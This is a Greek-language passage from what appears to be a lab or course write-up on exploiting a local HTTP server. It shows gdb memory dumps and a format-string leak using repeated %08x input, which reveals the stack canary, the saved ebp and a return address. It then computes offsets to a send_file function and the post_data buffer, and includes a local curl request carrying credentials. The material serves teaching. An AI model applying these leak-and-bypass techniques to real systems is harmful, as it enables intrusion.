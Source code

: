 ```
0xffffd4f0:     0x00000001      0x5656f330      0x5656f34c      0x5656f34d  
0xffffd500:     0x0000001c      0x00000000      0x00000000      0x00000000  
0xffffd510:     0xf7b7b90b      0xf7ced960      0xf7cefd20      0xf7b72520  
0xffffd520:     0xf7cefd20      0x00000000      0x00000000      0x04ee2700 (canary)  
0xffffd530:     0x5655f39f      0x5655befc      0xffffd568      0x5655694a (return_address)  
                                               (ebp_content)  

(gdb) x/a $ebp+4  
0xffffd53c:     0x5655694a <route+104>  
```
Θα δώσουμε τώρα για input στην printf 31 φορές το %08x (28 είναι τα words που έχουμε και τα 
άλλα 3 είναι για το call της printf).  
```
5656f330     0000009b   56556cdf    f7cefd20    00000000  
5655f3bf     5655c180   00000000    5656f330    0000009d  
00000000     00000001   5656f330    5656f3cb    5656f3cc  
0000009b     00000000   00000000    00000000    f7b7b90b  
f7ced960     f7cefd20   f7b72520    f7cefd20    00000000  
00000000     3f496d00   5655f3b0    5655befc    ffffd568    5655694a (return_address)  
             (canary)                         (ebp_content)  
```
Οι πληροφορίες που έχουμε μέχρι τώρα είναι : 
- Η 31η τιμή είναι το return address της συνάρτησης check_auth 5655694a.
- Η 30η τιμή είναι η τιμή του $ebp ffffd568
- Η 27η τιμή είναι η τιμή του canary 3f496d00.

Μας μένει να βρούμε :
- Το address της send_file και
- Το address του post_data

Για να τα βρούμε αυτά πρέπει να χρησιμοποιήσουμε κάποια από τις διευθύνσεις που βρήκαμε με το print format 
attack προηγουμένως. Η ιδέα είναι ότι χρησιμοποιώντας αυτές τις διευθύνσεις θα υπολογίσουμε τις τιμές των 
post_data και send_file με τα offset τους. Δηλαδή : 

Ξεκινάμε βρίσκοντας τη διεύθυνση του post_data και του send_file τοπικά :

b 184

curl -X POST -u test:029794db6e76cb559613732d7c94b24b360bb6f05879bb99e7765518b55abc57 -H "Content-Type: application/json" -d '{}' http://127.0.0.1:8080
```
(gdb) x/a post_data         [buffer]  
0xffffd4d0:     0xf7cefd20  
(gdb) info address send_file  
Symbol "send_file" is a function at address 0x56556f77.  
(gdb) x/a $ebp  
0xffffd538:     0xffffd568  
(gdb) x/a $esp  
0xffffd4d0:     0xf7cefd20  
```
Τώρα θα πάρουμε τα offsets του post_data (buffer) από το ebp_content και του send_file_address από το 
return_address :  
```
(gdb) x/a post_data  
0xffffd4f0:     0xf7cefd20  
(gdb) x/a $ebp  
0xffffd538:     0xffffd568  

post_data = 0xffffd4f0  
ebp_content = 0xffffd568  
post_data - ebp_content = ffffd4f0 – ffffd568 = -78  
[Decimal] post_data - ebp_content = 4294956272 – 4294956392 = -120  

```